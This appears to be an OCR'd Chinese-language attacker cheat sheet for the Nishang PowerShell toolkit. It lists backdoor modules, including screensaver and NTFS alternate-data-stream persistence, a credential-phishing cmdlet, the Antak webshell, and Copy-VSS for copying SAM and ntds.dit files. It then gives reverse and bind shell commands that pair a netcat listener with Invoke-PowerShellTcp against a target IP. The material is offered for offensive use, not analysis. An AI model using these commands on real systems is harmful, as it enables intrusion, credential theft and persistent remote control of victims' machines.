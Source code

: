 ```pythn

1.Http-Backdoor
可以帮助我们在目标机器上下载和执行powershell脚本，接收来自第三方网站的制定，然后在内存中执行powershell脚本

2.Add-ScrnSaveBackdoor
利用windows的屏保来留下一个隐藏的后门

3.Execute-OnTime
与Http-Backdoor相比，多了定时功能

4.Invoke-ADSBackdoor
使用NTFS数据流留下的一个永久后门
最恐怖的后门





## 钓鱼攻击(有道用户输入自己机器的密码)

Invoke-CredentialsPhish


## webshell后门   位于 \nishang\Antak-WebShell目录下

就是一个asp的大马（使用的是powershell的命令，比cmd命令强大）



# 复制sam文件（如果运行在DC机上，ntds.dit和SYSTEM hive也能被拷贝出来）

Copy-VSS    # 直接把文件保存在当前路径下
Copy-VSS -DEstinationDir C:temp    # 制定文件保存路径（必须是已存在的路径）

## 其他......
```



###### 后续控制

```python
# windows上没有nc，需要提前上传一个nc.exe，推荐Linux

## No1.反向连接（我用公网来连接目标内网，因为我获取不到内网的公网ip）  在Shells目录下面

#1.攻击机器上 NC下执行: 
nc -lvp 3333
#2.在目标服务器 PowerShell下执行：  TCO的
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.0.103 -Port 3333



## NO2.正向连接:

#1.目标 PowerShell下执行:  TCP的，  另外还有UDP的: 
Invoke-PowerShellTcp -Bind -Port 3333
#NC下执行: 请求他的3333端口
nc -nv 192.168.0.103 3333


### 基于UDP( Invoke-PowerShellUdp )，  nc命令有点不同

正向连接
nc -nvu 192.168.0.103 3333
```